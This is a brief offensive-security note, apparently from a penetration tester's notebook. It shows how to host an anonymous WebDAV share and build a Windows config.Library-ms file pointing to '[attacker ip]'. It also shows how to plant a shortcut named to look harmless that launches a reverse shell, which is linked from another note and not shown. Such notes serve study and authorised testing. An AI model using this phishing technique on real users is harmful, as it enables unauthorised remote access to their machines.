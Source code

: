 # LIBRARY FILES
```
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```
start visual studio
create file on desktop `config.Library-ms` this will show as an icon example of contents, change as needed
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://[attacker ip]</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

right click on windows desktop and create shortcut, use [[LATERAL MOVEMENT/AD/REVERSE SHELL|REVERSE SHELL]] as location of the item.
select automatic_configuration as name for shortcut file and click finished
